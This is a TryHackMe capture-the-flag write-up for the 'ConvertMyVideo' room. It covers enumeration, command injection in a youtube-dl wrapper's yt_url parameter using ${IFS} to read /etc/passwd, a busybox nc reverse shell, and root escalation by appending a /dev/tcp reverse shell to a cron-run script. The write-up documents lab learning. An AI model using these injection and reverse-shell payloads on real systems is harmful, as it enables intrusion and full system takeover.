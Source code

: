 ```yaml
---
title: "ConvertMyVideo"
date: 2025-03-29
draft: false
description: TryHackMe's Good Room
Tags:
- TryHackMe
- Linux
- Medium
---
```


## Enumeration

Lets start with the nmap scan.
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-28 18:22 +0545
Nmap scan report for 10.10.34.159 (10.10.34.159)
Host is up (0.19s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.76 seconds
```

Hmmm lets see whats in port 80.
![](Pasted%20image%2020250329005821.png)
Hmm as the name suggest,it converts a video or mp4 to mp3.
Hmmm lets check for any special features that we might need.
![](Pasted%20image%2020250329005836.png)
And interesingly,it asks for video id.
Hmmm.

Ohhh after seeing the souce code,i found out that it was asking for youtube video id.
![](Pasted%20image%2020250329005851.png)

Hmmm so as that code,it asks for video id of youtube and make us able to download the mp3 version.
Lets just check by passing one video from youtube.
![](Pasted%20image%2020250329005910.png)
Lets pass this videos id.
Ohh this is long video,lets use shorter one.
![](Pasted%20image%2020250329005922.png)

Lets see how it works.
![](Pasted%20image%2020250329005933.png)
I don't know why but its taking very long.

And few more things from directory busting.
![](Pasted%20image%2020250329005945.png)
And authentication in `/admin`.
![](Pasted%20image%2020250329005957.png)

But we don't have any username or password.
Hmmm.
And there is `/tmp` which is forbidden.
Hmmm interesting.

I captured the requests in burp.
![](Pasted%20image%2020250329010007.png)

Hmm so `yt_url` parameter is going on that video.
But what can we do here?
SSRF,LFI or just huge rabbithole.

Hmm interesting.
![](Pasted%20image%2020250329010019.png)

Hmmm very very interesting.
According to it,there is downloads folder in `/tmp` and there is mp3 file but there is nothing.
![](Pasted%20image%2020250329010029.png)

Hmmm,I am missing something.
So as far I understand it download the mp3 from passed video and save that in `/tmp/downloads` as mp3 file.

![](Pasted%20image%2020250329010040.png)
Hmm.

I guess we can do ssrf.
![](Pasted%20image%2020250329010059.png)

Hmm interesting.
And I am stuck for few hours.
Okay lets just see the part of writeup.
Hmmm so from the result we have got for now reveals that its using something `youtube-dl`.
Lets search for it.
![](Pasted%20image%2020250329010123.png)

## Exploit

Hmm interesting.
And command injection was also possible cause its running a command of `youtube-dl`,so we can use pipe to inject command too.
![](Pasted%20image%2020250329010133.png)

Okay let's continue to get shell or something.
But again it is not compatible.
We can't run long commands and many more.
(we couldn't use spaces i guess)

After some talk with chatGPT,we came up with this.
```Bash
yt_url=|cat${IFS}/etc/passwd;
```

So here that `${IFS}` worked as a space.

We could now read files easily.
![](Pasted%20image%2020250329010144.png)

Great.Now lets try to get shell or complete this rooms's goal.
We can read index.php.
![](Pasted%20image%2020250329010212.png)
![](Pasted%20image%2020250329010224.png)
We got the flag.txt.

As well as there is `.htaccess`file.
![](Pasted%20image%2020250329010243.png)
![](Pasted%20image%2020250329010332.png)


Now we can read that.
![](Pasted%20image%2020250329010344.png)

Lets crack the password hash.
![](Pasted%20image%2020250329010355.png)

## Foothold

And now we can login.
But I was wondering if we can execute command,Can I get shell from that.
I tried different things but this one worked.
```bash
busybox${IFS}nc${IFS}ip${IFS}9999${IFS}-e${IFS}sh;
```
![](Pasted%20image%2020250329010411.png)

Lets also do it from `/admin`.
Cause we can also execute command by that cause we can see this.
![](Pasted%20image%2020250329010422.png)

So lets login and execute command.
![](Pasted%20image%2020250329010433.png)

## Privelege Escalation

Now we have got the shell,lets try to escalate our priveleges.
Lets run [linpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS).
Nothing interesting.
Lets also run [pspy](https://github.com/DominicBreuker/pspy/releases).


And we saw something interesting.
![](Pasted%20image%2020250329010455.png)
Hmm so clean.sh is running as root.
Lets check the permission of that script.
![](Pasted%20image%2020250329010506.png)

So we can edit and escalate to root.
I added this line in clean.sh.
```bash
sh -i >& /dev/tcp/ip/9999 0>&1
```

Now lets wait for some time and see if we got a root shell or not.
![](Pasted%20image%2020250329010518.png)

## Done

And done.
![](Pasted%20image%2020250329010530.png)

Again learned lots of things.I hope you are doing awesome.
Take Care!

